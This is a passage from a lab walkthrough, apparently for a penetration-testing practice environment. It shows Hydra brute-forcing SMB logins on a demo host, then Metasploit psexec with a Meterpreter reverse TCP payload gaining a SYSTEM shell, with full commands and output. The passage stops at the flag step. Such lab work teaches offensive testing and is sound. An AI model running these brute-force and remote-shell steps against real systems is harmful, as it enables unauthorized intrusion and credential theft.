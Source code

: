 **Step 8**: Let's find the valid password for `admin`, `administrator`, and `root` user.

`nano /root/Desktop/users.txt`:
```
admin
administrator
root
```

`hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb`:
```
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-13 21:06:20
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 3027 login tries (l:3/p:1009), ~3027 tries per task
[DATA] attacking smb://demo.ine.local:445/
[445][smb] host: demo.ine.local   login: admin   password: tinkerbell ←
[445][smb] host: demo.ine.local   login: administrator   password: password1 ←
[445][smb] host: demo.ine.local   login: root   password: elizabeth ←
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-13 21:06:24
```

**Step 9**: Let's use the Metasploit framework and the `psexec` exploit module to gain a Meterpreter shell using the `administrator` user valid password.

`msfconsole -q`, `search psexec`, `use exploit/windows/smb/psexec`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `show options`, `set RHOSTS demo.ine.local`, `set SMBUser administrator`, `set SMBPass password1`, `exploit`.

`sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
```

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

`migrate -N explorer.exe`:
```
[*] Migrating from 2240 to 2584...
[*] Migration completed successfully. ←
```

**Step 10**: Let's find and read the flag.

